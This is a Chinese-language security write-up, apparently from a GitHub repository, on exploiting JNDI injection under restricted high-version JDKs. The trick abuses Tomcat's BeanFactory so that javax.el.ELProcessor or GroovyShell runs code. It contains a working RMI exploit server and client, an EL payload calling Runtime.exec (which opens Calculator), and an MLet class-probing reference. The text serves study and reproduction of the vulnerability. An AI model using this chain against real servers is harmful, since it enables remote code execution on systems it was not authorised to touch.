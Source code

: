 复现与调试：  
* 先起RMIServerELProcessor，然后运行RMIClient就可以触发命令执行。

* RMIServerMyClass并不重要，仅作为简单的演示，下文会提及。

* FastJsonHighVersionJDK是演示fastjson反序列化漏洞中，通过JdbcRowSetImpl链结合BeanFactory实现高版本jdk下的漏洞利用

---

高版本JDK中，对RMI和LDAP的trustURLCodebase做了限制，默认不允许远程加载ObjectFactory。  

RMI利用的JDK版本≤ JDK 6u132、7u122、8u113

LADP利用JDK版本≤ 6u211 、7u201、8u191  

---

目前两种绕过思路：
* 找到受害者本地classpath中的类作为恶意Reference Factory工厂类，并利用这个本地Factory类执行命令
* 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对他反序列化，由此完成利用

因此具体实现上，大概三种利用方式比较常见：
* 无法加载远程Factory工厂类，但不影响加载本地classpath中的Factory，条件是：工厂类必须实现了`javax.naming.sp.ObjectFactory`接口，并且至少存在一个getPbejct方法。比如：`org.apache.naming.factory.BeanFactory`（需要Tomcat的catalina.jar依赖，使用相对广泛）。以此调用`javax.el.ELProcessor#eval`或`groovy.lang.GroovyShell#evaluate`方法。
* 另外通过LDAP的javaSerializedData反序列化Gadget（不过这不在本文讨论范围内）

---

在调试过程中可以构建一个简单的本地class来增加对他的理解：
```java
package org.example;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import jdk.nashorn.internal.ir.Terminal;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.security.PublicKey;

public class RMIServerMyClass {
    public static void lanuchRMIregister(Integer rmi_port) throws Exception {

        System.out.println("Creating RMI Registry, RMI Port:" + rmi_port);
        Registry registry = LocateRegistry.createRegistry(rmi_port);
        ResourceRef ref = new ResourceRef("org.example.RMIServerMyClass$Test", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=run"));
        ref.add(new StringRefAddr("x", "huhu"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Exploit", referenceWrapper);
        System.out.println(referenceWrapper.getReference());

    }

    public static void main(String[] args) throws Exception {
        lanuchRMIregister(1099);
    }

    public static class Test {
        public Test() {

        }

        public void run(String name) {
            System.out.println("My Name is " + name);
        }
    }
}
```
服务端起来以后，再运行如下客户端：
```java
package org.example;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;

public class RMIClient {
    public static void main(String[] args) throws Exception{
        Hashtable<String,String> env = new Hashtable<>();
        Context context = new InitialContext(env);
        context.lookup("rmi://127.0.0.1:1099/Exploit");
    }
}
```

----

进入`BeanFactory#getObjectInstance`以后，会对类进行加载，并将obj转为Reference：
```java
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws NamingException {
    if (obj instanceof ResourceRef) {
        try {
            Reference ref = (Reference)obj;
            String beanClassName = ref.getClassName();
            Class<?> beanClass = null;
            ClassLoader tcl = Thread.currentThread().getContextClassLoader();
            if (tcl != null) {
                try {
                    beanClass = tcl.loadClass(beanClassName);
                } catch (ClassNotFoundException var26) {
                }
            } else {
                try {
                    beanClass = Class.forName(beanClassName);
                } catch (ClassNotFoundException var25) {
                    var25.printStackTrace();
                }
            }
```
此时的obj如下：
```java
ResourceRef[className=org.example.RMIServerMyClass$Test,factoryClassLocation=null,factoryClassName=org.apache.naming.factory.BeanFactory,{type=scope,content=},{type=auth,content=},{type=singleton,content=true},{type=forceString,content=x=run},{type=x,content=huhu}]
```
也就是加载了org.example.RMIServerMyClass$Test。

然后对Test进行实例化，并获取ref的forceString属性：
```java
Object bean = beanClass.getConstructor().newInstance();
RefAddr ra = ref.get("forceString");
```
此时，ra的值为：
```java
Type: forceString
Content: x=run
```
接着，获取Content值，通过字符串分割的形式拿到了run
```java
Map<String, Method> forced = new HashMap();
String value;
String propName;
int i;
if (ra != null) {
    value = (String)ra.getContent();  // value: "x=run"
    Class<?>[] paramTypes = new Class[]{String.class};  // 限制了方法必须是接受一个String类型的参数
    String[] var18 = value.split(",");  // 这意味着value可以是多个键值对的组合，此时因为只有一组键值对，所以var18: ["x=run"]
    i = var18.length;  // i: 1

    for(int var20 = 0; var20 < i; ++var20) { // 遍历var18
        String param = var18[var20];
        param = param.trim();
        int index = param.indexOf(61);  // 注意，这里用的是indexOf(int ch)，所以其实是在找“=”的索引
        if (index >= 0) {
            propName = param.substring(index + 1).trim(); // 将run提出来，赋给propName
            param = param.substring(0, index).trim();
        } else {
            propName = "set" + param.substring(0, 1).toUpperCase(Locale.ENGLISH) + param.substring(1);
        }
```

然后getMethod，将``x=>RMIServerMyClass$Test#eval()``放入forced：

```java
try {
    forced.put(param, beanClass.getMethod(propName, paramTypes));
} catch (SecurityException | NoSuchMethodException var24) {
    throw new NamingException("Forced String setter " + propName + " not found for property " + param);
}
```

然后获取content，也就是即将执行的方法的参数值，然后从forced中取出run方法，通过反射执行：
```java
// ra: Type: x, Content: huhu
// 因此，value: huhu
value = (String)ra.getContent();  
Object[] valueArray = new Object[1];
Method method = (Method)forced.get(propName);
if (method != null) {
    valueArray[0] = value;

    try { 
        // 就是在执行：RMIServerMyClass$Test#run.invoke(bean,new String[]{"huhu"});
        method.invoke(bean, valueArray);
```
根据上面调试过程，我们可以总结通过BeanFactory执行任意方法的类的几个限制条件：
* 这个类必须有一个无参构造方法
* 这个类必须能够被BeanFactory访问到，如果是内部类，则必须被public修饰
* 我们要执行的方法必须是只接受一个String类型的方法，而且该方法必须被public修饰

刚好，`javax.el.ELProcessor`符合条件：
```java
public ELProcessor() {
    this.context = this.manager.getELContext();
    this.factory = ELManager.getExpressionFactory();
}

public Object eval(String expression) {
    return this.getValue(expression, Object.class);
}
```
同样，`groovy.lang.GroovyShell`也是如此：
```java
public GroovyShell() {
    this((ClassLoader)null, (Binding)(new Binding()));
}
        
public Object evaluate(String scriptText) throws CompilationFailedException {
    return this.evaluate(scriptText, this.generateScriptName(), "/groovy/shell");
}
```

因此在RMIServer端构造的代码类似：
```java
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
ref.add(new StringRefAddr("forceString", "x=eval"));
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"java.lang.Runtime.getRuntime().exec('open /System/Applications/Calculator.app')\")"));
```
本质上是在执行如下代码：
```java
new ELProcessor().eval("Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\")");
```

我们也可以按照这种思路继续寻找可以利用的class，浅蓝师傅提出了MLet可以用来进行class探测，也是非常有趣的。
代码如下：
```java
ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));
ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));
ref.add(new StringRefAddr("c", "Blue"));
```

# 参考文献
* [如何绕过高版本JDK的限制进行JNDI注入利用 – KINGX](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html#/)
* [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)  
* [JNDI 注入利用 Bypass 高版本 JDK 限制](https://wjlshare.com/archives/1661/)